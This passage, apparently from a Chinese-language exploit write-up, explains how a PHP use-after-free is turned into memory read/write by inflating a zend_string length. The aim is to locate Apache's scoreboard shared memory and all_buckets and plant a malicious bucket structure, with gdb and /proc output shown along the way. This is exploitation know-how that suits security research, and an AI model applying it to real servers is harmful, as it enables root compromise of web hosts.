 这是PHP对象上的UAF： 我们unset $y[0]（X的一个实例），但它仍然可以通过$this使用。

##### UAF导致读/写

我们希望实现两件事：

*   读取内存以查找all_buckets的地址
*   编辑共享内存，修改bucket，添加我们自定义的恶意结构

幸运的是，PHP的堆位于内存中的那两个之前。

PHP堆，ap_scoreboard_image，all_buckets的内存地址

```
root@apaubuntu:~# cat /proc/6318/maps | grep libphp | grep rw-p
7f4a8f9f3000-7f4a8fa0a000 rw-p 00471000 08:02 542265 /usr/lib/apache2/modules/libphp7.2.so `(gdb) p *ap_scoreboard_image

$14 = {

global = 0x7f4a9323e008,

parent = 0x7f4a9323e020,

servers = 0x55835eddea78

}

(gdb) p all_buckets

$15 = (prefork_child_bucket *) 0x7f4a9336b3f0` 
```

由于我们在PHP对象上触发UAF，因此该对象的任何属性也将是UAF; 我们可以将这个zend_object UAF转换为zend_string。因为zend_string的结构非常有用：

```
(gdb) ptype zend_string
type = struct _zend_string {
    zend_refcounted_h gc;
    zend_ulong h;
    size_t len;
    char val[1];
} 
```

len属性包含字符串的长度。 通过递增它，我们可以在内存中进一步读写，从而访问我们感兴趣的两个内存区域:共享内存和all_buckets。

##### 定位bucket index 和 all_buckets

我们需要修改ap_scoreboard_image->parent[worker_id]->bucket中的parent结构中的bucket。幸运的是，parent结构总是处于共享内存块的开始，因此很容易找到：

```
➜  /www curl 127.0.0.1
PID: 14380
7f8a19da9000-7f8a19dc1000 rw-s 00000000 00:04 61736                      /dev/zero (deleted)
➜  /www `(gdb) p &ap_scoreboard_image->parent[0]

$1 = (process_score *) 0x7f8a19da9040

(gdb) p &ap_scoreboard_image->parent[1]

$2 = (process_score *) 0x7f8a19da9064

(gdb)` 
```
